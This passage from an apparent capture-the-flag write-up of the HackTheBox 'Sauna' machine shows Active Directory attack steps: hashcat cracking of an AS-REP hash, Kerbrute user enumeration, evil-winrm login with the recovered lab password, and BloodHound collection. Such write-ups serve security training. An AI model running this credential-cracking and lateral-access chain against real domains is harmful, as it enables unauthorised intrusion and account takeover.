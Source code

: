 
I cracked the hash using `hahcat -m 18200 hashes.aspreroast` and password for **fsmith** was **Thestrokes23**.

![](https://i.imgur.com/nT9Vasw.png)


### Kerbrute

If the generated userlist was too long to be ran directly for AS-REP Roasting, I could have first ran it on Kerbrute to filter out valid user from KDC server:

`./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc dc01.egotistical.local ~/Documents/htb/sauna/usernames-generated.txt`

![](https://i.imgur.com/Y5HiCQw.png)


### Evil-winrm
Luckily, user fsmith had access to winrm:

![](https://i.imgur.com/4hr5wcN.png)


Now I can access the system through evil-winrm as fsmith:

`sudo evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![](https://i.imgur.com/8nr60eC.png)



## Privesc: fsmith to svc_loanmgr
### Local Enumeration

Before running winpeas or bloodhound, I always like to spend some time on manual enumeration to see what to expect from automated scans.

There seemed to be two more users besides from Administrator and FSmith: **svc_loanmgr** and **HSmith**

`net users`

![](https://i.imgur.com/7MXNYuf.png)


### Bloodhound

After spending some time on local enumeration, I moved on to Bloodhound:

`sudo python bloodhound.py -u fsmith -p 'Thestrokes23' -c ALL -ns 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL`

![](https://i.imgur.com/1lXcCxp.png)


